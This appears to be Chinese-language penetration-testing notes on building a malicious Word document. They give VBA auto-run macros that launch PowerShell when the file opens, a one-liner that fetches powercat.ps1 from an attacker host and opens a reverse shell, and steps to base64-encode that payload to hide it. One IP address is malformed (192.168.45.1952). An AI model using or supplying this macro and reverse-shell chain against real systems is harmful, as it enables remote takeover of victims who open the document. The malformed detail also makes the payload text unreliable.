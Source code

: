 ## Microsoft Office

### word

启用宏的文件后缀：.doc、.docm

#### openshell

在Microsoft Office Word中创建名为OpenShell的宏，具体步骤可参考[链接](https://freedium.cfd/https://infosecwriteups.com/oscp-tactics-how-to-create-a-malicious-word-macro-for-remote-code-execution-276ee7c638a5)。

```vb
Sub AutoOpen()
	OpenShell
End Sub

Sub Document_Open()
	OpenShell
End Sub

Sub OpenShell()
	CreateObject("Wscript.Shell").Run "powershell"
End Sub
```

#### reverseshell

##### powershell evil payload

```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.1952/powercat.ps1');powercat -c 192.168.45.195 -p 7777 -e powershell
```

##### base64 encoding

online

注意：UTF-16LE 是 PowerShell 支持的 base64 编码的默认字符集。如果我们选择任何其他字符集，我们的 payload 可能不起作用。

```
https://www.base64encode.org/
```

powershell commands

`-e` 参数要求的格式：UTF-16LE 编码的 Base64 字符串

```powershell
# UTF-16LE 编码
$command = "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.1952/powercat.ps1');powercat -c 192.168.45.195 -p 7777 -e powershell"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
Write-Output $encodedCommand

# 解码查看内容，不执行
$encodedCommand = "bgBvAHQAZQBwAGEAZAA="
[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($encodedCommand))
```
